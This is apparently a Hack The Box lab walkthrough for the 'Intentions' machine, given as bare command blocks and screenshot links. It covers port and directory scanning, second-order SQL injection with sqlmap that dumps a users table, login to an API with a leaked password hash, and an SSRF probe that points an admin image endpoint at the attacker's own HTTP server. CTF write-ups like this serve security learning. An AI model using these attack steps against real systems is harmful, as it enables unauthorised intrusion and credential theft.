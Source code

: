 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)

![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)

![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)

![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)

![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)

![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)

![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)

![image](https://github.com/regarmulia/HTB/assets/33616880/ce76950b-7767-47dd-a328-7d7953ee15f9)


```
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0b6871de-0e54-44c1-9d14-27943f81f53b)

![image](https://github.com/regarmulia/HTB/assets/33616880/788c8136-6a8f-4715-95b9-e558c5b1a819)


```
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7446d685-b13d-437d-b177-a34ce4d105a0)


![image](https://github.com/regarmulia/HTB/assets/33616880/36a9081f-c32a-400f-b322-618f52ac3216)

